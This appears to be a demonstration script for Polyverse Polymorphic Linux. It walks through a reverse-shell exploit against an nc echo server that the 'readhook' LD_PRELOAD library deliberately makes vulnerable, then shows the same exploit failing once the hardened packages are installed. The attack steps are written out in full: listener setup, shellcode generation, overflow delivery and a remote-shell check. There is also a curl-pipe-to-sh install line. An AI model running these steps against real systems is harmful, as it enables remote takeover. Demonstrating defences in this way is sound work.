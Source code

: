 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm --name echo -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -l -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally (e.g. Segmentation fault)
